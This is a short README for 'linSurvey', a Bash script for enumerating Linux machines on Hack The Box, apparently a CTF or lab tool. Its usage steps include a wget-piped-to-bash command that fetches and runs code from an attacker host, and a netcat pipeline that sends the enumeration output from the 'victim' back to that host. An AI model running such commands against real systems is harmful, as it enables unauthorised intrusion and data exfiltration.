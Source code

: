 # linSurvey

GNU/Linux enumeration script written in BASH.
Created to enumerate GNU/Linux machines on Hack The Box. Can possibly be used against UNIX machines. Visuals taking from HIGH ON COFFEE'S enumeration script. 

HOW TO USE:
1. Upload script to victim:
   1. bash linSurvey.sh
   2. (as needed) bash linSurvey.sh | tee /tmp/linSurvey.txt
  
2. Use wget to piped to bash to run:
   1. wget YOUR_IP_ADDR/linSurvey.sh -O- | bash
   2. (as needed) wget YOUR_IP_ADDR/linSurvey.sh -O- | bash | nc -nvvq1 YOUR_IP_ADDR YOUR_PORT
      1. Have netcat on your attack machine listening for data: nc -nvvls YOUR_IP_ADDR -p YOUR_PORT > linSurvey.txt && cat linSurvey.txt
  
  Enjoy
